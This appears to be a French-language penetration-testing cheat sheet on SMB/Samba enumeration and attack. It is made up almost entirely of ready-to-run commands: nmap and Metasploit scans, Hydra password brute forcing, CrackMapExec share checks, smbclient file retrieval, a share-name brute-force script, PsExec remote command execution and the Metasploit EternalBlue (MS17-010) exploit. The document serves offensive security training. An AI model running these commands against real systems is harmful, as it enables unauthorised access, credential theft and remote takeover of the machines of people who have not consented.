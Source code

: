 # 📁 Énumération SMB/Samba

[← Retour à la table des matières](../README.md)

## Port par défaut : 445

## Nmap Scripts SMB
```bash
nmap -p445 --script smb-protocols targetIP
nmap -p445 --script smb-security-mode targetIP
nmap -p445 --script smb-enum-sessions targetIP
nmap -p445 --script smb-enum-shares targetIP
nmap --script smb-os-discovery.nse -p 445 targetIP
```

## Metasploit Modules
```bash
use scanner/smb/smb_enumusers
use scanner/smb/smb_login
    set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
    set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
use auxiliary/scanner/smb/smb_enumshares
use auxiliary/scanner/smb/smb_version
```

## Sessions anonymes
```bash
smbclient -L targetIP -N
rpcclient -U "" -N targetIP
```

## Enum4linux
```bash
enum4linux -a targetIP
```

## Hydra Bruteforce → [📖 Guide Hydra](../06-tools/hydra.md)
```bash
# Bruteforce SMB
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt smb://targetIP
```

## Samba sur Linux

### Énumération avec smbmap
```bash
# Énumération des shares avec credentials
smbmap -H targetIP -u username -p password

# Énumération anonyme
smbmap -H targetIP -u anonymous
```

### Bruteforce Samba avec Hydra
```bash
# Bruteforce spécifique pour Samba Linux
hydra -L users.txt -P passwords.txt targetIP smb
# ⚠️ Réduire les threads si nécessaire : -t 3
```

## CrackMapExec - Énumération des shares → [📖 Guide CrackMapExec](../06-tools/crackmapexec.md)
```bash
# Vérifier les permissions des shares avec des credentials
crackmapexec smb targetIP -u administrator -p password --shares
```

## Connexion aux shares → [📖 Guide SMBClient](../06-tools/smbclient.md)
```bash
# Connexion au share C$ (nécessite des privilèges admin)
smbclient //targetIP/C$ -U administrator

# Connexion à un share spécifique
smbclient //targetIP/sharename -U username
```

## Méthodologie d'attaque SMB complète

### Étape 1 : Bruteforce initial → [📖 Guide Hydra](../06-tools/hydra.md)
```bash
# Découverte des credentials avec Hydra
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt smb://targetIP
```

**Résultats typiques :**
```
[445][smb] host: targetIP   login: rooty   password: spongebob
[445][smb] host: targetIP   login: demo   password: password1
[445][smb] host: targetIP   login: auditor   password: hellokitty
[445][smb] host: targetIP   login: administrator   password: pineapple
```

### Étape 2 : Énumération des shares par utilisateur → [📖 Guide CrackMapExec](../06-tools/crackmapexec.md)
```bash
# Tester chaque credential trouvé pour lister les shares
crackmapexec smb targetIP -u rooty -p spongebob --shares
crackmapexec smb targetIP -u demo -p password1 --shares
crackmapexec smb targetIP -u auditor -p hellokitty --shares
crackmapexec smb targetIP -u administrator -p pineapple --shares
```

### Étape 3 : Connexion et exploration → [📖 Guide SMBClient](../06-tools/smbclient.md)
```bash
# Connexion avec le compte ayant le plus de privilèges (généralement administrator)
smbclient //targetIP/C$ -U administrator

# Si C$ n'est pas accessible, tester d'autres shares découverts
smbclient //targetIP/Users -U username
smbclient //targetIP/shared -U username
```

### Étape 4 : Commandes dans smbclient
```bash
# Une fois connecté au share SMB :
ls                    # Lister les fichiers
cd directory         # Changer de répertoire
get filename         # Télécharger un fichier
put localfile        # Upload un fichier
mget *.txt          # Télécharger plusieurs fichiers
recurse ON          # Activer la récursion
prompt OFF          # Désactiver les confirmations
mget *              # Télécharger tout récursivement
```

## Analyse des permissions

### Interprétation des résultats CrackMapExec
```bash
# Exemple de sortie crackmapexec --shares :
# ADMIN$    Disk      Remote Admin           READ,WRITE
# C$        Disk      Default share          READ,WRITE  
# IPC$      IPC       Remote IPC             READ
# Users     Disk      Users Directory        READ
```

**Légende des permissions :**
- `READ` : Lecture seule
- `WRITE` : Écriture possible
- `READ,WRITE` : Accès complet
- `NO ACCESS` : Aucun accès

### Priorités d'exploration
1. **C$** : Accès au système de fichiers complet (admin requis)
2. **ADMIN$** : Répertoire Windows/System32 (admin requis)  
3. **Users** : Répertoires utilisateurs (souvent accessible)
4. **Shares personnalisés** : Peuvent contenir des données sensibles

## Script de bruteforce des shares
```bash
#!/bin/bash
TARGET="targetIP"
WORDLIST="/root/Desktop/wordlists/shares.txt"

if [ ! -f "$WORDLIST" ]; then
    echo "Wordlist not found: $WORDLIST"
    exit 1
fi

while read -r SHARE; do
    echo "Testing share: $SHARE"
    smbclient //$TARGET/$SHARE -N -c "ls" &>/dev/null
    
    if [ $? -eq 0 ]; then
        echo "[+] Anonymous access allowed for: $SHARE"
    else
        echo "[-] Access denied for: $SHARE"
    fi
done < "$WORDLIST"
```

## SMB avec PsExec (nécessite des credentials légitimes)

### Test de login SMB
```bash
use auxiliary/scanner/smb/smb_login
set RHOSTS targetIP
set SMBUser administrator
set SMBPass password
run
```

### PsExec avec Impacket
```bash
# Exécution directe
psexec.py administrator@targetIP cmd.exe
```

### PsExec avec Metasploit
```bash
use exploit/windows/smb/psexec
set RHOSTS targetIP
set SMBUser administrator
set SMBPass password
run
# Obtention d'un meterpreter
```

## MS17-010 EternalBlue

### Détection de la vulnérabilité
```bash
# Nmap script de détection
nmap -sV -p 445 --script=smb-vuln-ms17-010 targetIP

# Scanner Metasploit
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS targetIP
run
```

### Exploitation EternalBlue
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS targetIP
run